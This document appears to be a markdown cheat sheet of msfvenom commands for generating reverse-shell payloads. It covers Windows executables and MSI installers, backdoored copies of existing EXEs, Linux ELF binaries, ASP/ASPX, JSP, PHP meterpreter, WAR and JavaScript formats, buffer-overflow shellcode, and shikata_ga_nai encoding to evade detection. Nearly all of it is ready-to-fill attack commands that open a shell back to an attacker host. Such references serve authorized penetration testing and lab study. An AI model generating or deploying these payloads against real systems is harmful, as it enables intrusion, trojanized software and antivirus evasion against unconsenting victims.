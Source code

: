 # Msfvenom

## Commands

#### Generic

```
msfvenom -h
msfvenom -l <formats/payloads/encoders/nops>
```

#### Quick payload generation

```
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <filename>    #create runnable payload
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <lang> -v <varname>     #create payload source code
```

## Common payloads

### Windows EXE reverse shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -e x86/shikata_ga_nai -i 8 -o rv.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -e x86/shikata_ga_nai -i 8 -o rv.exe
msfvenom -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -e x86/shikata_ga_nai -i 8 -o rv.exe
```

### Windows EXE hijack

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -x <exe file> -k -e x86/shikata_ga_nai -i 8 -o rv.exe
msfvenom -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -x <exe file> -k -e x86/shikata_ga_nai -i 8 -o rv.exe
```

### Windows malicious installer

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <filename>.msi
msfvenom -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <filename>.msi
```

### \*nix ELF reverse shell

```
msfvenom -p linux/<arch>/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf -e x86/shikata_ga_nai -i 8 -o payload
```

### BOF payload

```
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <lang> -v shellcode -e x86/shikata_ga_nai -b "<bad chars>" EXITFUNC=thread
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <lang> -v shellcode -b "<bad chars>" EXITFUNC=thread
```

### .NET reverse shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o rv.asp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o rv.asp

msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o rv.aspx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o rv.aspx
```

### JSP reverse shell

```
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f jsp -o rv.jsp
```

### PHP reverse shell

```
msfvenom -p php/reverse_php LHOST=<ip> LPORT=<port> -f raw -o payload.php
msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -o meterpreter.php
```

### WAR file reverse shell

```
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o payload.war
```

### JavaScript reverse shell

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f js_le
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f js_le
```

